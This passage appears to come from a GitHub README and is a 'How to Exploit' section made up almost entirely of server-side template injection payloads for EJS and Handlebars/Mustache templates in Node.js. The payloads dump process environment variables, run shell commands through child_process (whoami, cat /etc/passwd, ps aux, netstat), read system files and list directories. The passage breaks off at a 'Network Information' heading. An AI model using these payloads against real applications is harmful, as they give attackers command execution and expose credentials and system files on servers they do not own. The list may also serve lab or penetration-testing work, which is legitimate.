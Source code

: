 ## 🎯 How to Exploit

### 1. Basic Information Gathering

**EJS Payloads:**
```javascript
<%= global.process.env %>
<%= global.process.version %>
<%= global.process.platform %>
<%= global.process.cwd() %>
<%= global.process.arch %>
<%= global.process.uptime() %>
```

**Handlebars/Mustache Payloads:**
```javascript
{{ global.process.env }}
{{ global.process.version }}
{{ global.process.platform }}
{{ global.process.cwd() }}
```

### 2. Command Execution

**EJS Command Execution:**
```javascript
<%= global.process.mainModule.require('child_process').exec('whoami') %>
<%= global.process.mainModule.require('child_process').exec('id') %>
<%= global.process.mainModule.require('child_process').exec('ls -la') %>
```

**Advanced Command Execution:**
```javascript
<%= global.process.mainModule.require('child_process').execSync('cat /etc/passwd') %>
<%= global.process.mainModule.require('child_process').execSync('ps aux') %>
<%= global.process.mainModule.require('child_process').execSync('netstat -tulpn') %>
```

### 3. File System Access

**Read Files:**
```javascript
<%= global.process.mainModule.require('fs').readFileSync('/etc/passwd', 'utf8') %>
<%= global.process.mainModule.require('fs').readFileSync('/etc/hosts', 'utf8') %>
<%= global.process.mainModule.require('fs').readFileSync('/proc/version', 'utf8') %>
```

**List Directories:**
```javascript
<%= global.process.mainModule.require('fs').readdirSync('/') %>
<%= global.process.mainModule.require('fs').readdirSync('/home') %>
<%= global.process.mainModule.require('fs').readdirSync('/var/www') %>
```

### 4. Network Information
